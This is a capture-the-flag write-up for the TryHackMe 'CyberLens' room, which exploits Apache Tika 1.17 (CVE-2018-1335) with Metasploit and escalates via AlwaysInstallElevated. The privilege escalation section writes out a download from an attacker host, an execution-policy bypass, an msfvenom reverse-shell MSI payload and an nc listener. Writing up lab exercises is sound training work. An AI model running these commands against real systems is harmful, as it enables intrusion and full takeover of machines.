 ```yaml
---
title: THM CyberLens
author: hanhctf
date: 2024-05-20 12:00:00 +0700
categories: [Write-up, THM]
tags: [CVE-2018-1335]
toc: true
mermaid: true
---
```


# [**CyberLens**](https://tryhackme.com/r/room/cyberlensp6)

# Summary
>
> - Port 61777 open ==> Apache Tika 1.17 Server ==> CVE-2018-1335
> - Use metasploit exploit user
> - Use PrivescCheck.ps1, check Windows Privilege Escalation  
> - AlwaysInstallElevated vuln

## NMAP

```text
PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Apache httpd 2.4.57 ((Win64))
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack Microsoft Windows RPC
61777/tcp open  http          syn-ack Jetty 8.y.z-SNAPSHOT
```

## Web Enumeration

After enumeration port 80, nothing interested.  

Continous enumeration port 61777, we can see Apache Tika 1.17 Server.

![](/commons/THM/CyberLens/0_Apache_Tika_1.17_Server.png)

Quick search, we found CVE-201801335 for Apache Tika 1.17 Server on [exploit-db](https://www.exploit-db.com/exploits/47208)

## Foothold

Use Metasploit to exploit this vuln.
![](/commons/THM/CyberLens/1_metasploit_exploit.png)

Worked.

***GOT USER.TXT FLAG***

## Privilege Escalation

This tool can find in Github [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck).

We can use curl to upload PrivescCheck.ps1 to victim via powershell.
In this case. I run local server with `python3 -m http.server 80` to host PrivescCheck.ps1 file.
In victim machine, we get .ps1 via `Invoke-WebRequest -Uri http://attack_IP:port/PrivescCheck.ps1 -Outfile PrivescCheck.ps1`

Run tools:

```shell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"
```

We found a vuln that can be exploit.

![](/commons/THM/CyberLens/2_Always_Install_Elevated.png)

And we can use [this exploit](https://juggernaut-sec.com/alwaysinstallelevated/)

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
```

And upload from local.
In another terminal, listen on port 443 `sudo nc -nlvp 443`

After get evil.msi in victim from local.
Just run file. And we got system.
![](/commons/THM/CyberLens/3_Root.png)

***GOT ADMIN.TXT FLAG***
